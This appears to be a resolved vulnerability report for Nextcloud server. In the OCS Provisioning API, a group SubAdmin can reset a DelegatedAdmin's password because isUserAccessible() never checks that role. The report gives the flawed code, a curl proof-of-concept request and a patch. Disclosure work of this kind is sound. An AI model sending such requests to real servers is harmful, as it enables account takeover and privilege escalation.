

Nextcloud server · broken access control · OCS Provisioning API · Resolved
A group-level SubAdmin could take over a DelegatedAdmin account and inherit instance-wide user management.
A DelegatedAdmin holds global user-management rights over all users. A SubAdmin (group admin) is limited to users in the groups they administer.
SubAdmin::isUserAccessible() decides whether a SubAdmin may manage a given user. It blocks full admins but never checks the DelegatedAdmin role:
public function isUserAccessible(IUser $subadmin, IUser $user): bool {
if ($subadmin->getUID() === $user->getUID()) return true;
if (!$this->isSubAdmin($subadmin)) return false;
// blocks FULL admins only ...
if ($this->groupManager->isAdmin($user->getUID())) return false;
// ... MISSING: no check for isDelegatedAdmin($user)
$accessible = $this->getSubAdminsGroupIds($subadmin);
$userGroups = $this->groupManager->getUserGroupIds($user);
return !empty(array_intersect($accessible, $userGroups));
}A SubAdmin who shares at least one group with a DelegatedAdmin can reset that account’s password through the OCS Provisioning API:
curl -X PUT "https://target/ocs/v2.php/cloud/users/<delegated_admin_id>" \
-u "subadmin:password" -H "OCS-APIREQUEST: true" \
-d "key=password" -d "value=NewPassw0rd!"The request should return 403 Forbidden; instead it returns 200 OK and the password changes. Logging in as the DelegatedAdmin then grants instance-wide user-management rights and full takeover of that account.
Reject DelegatedAdmin targets in the access-control check:
if ($this->groupManager->isAdmin($user->getUID())
|| $this->groupManager->isDelegatedAdmin($user->getUID())) {
return false; // protect DelegatedAdmins too
}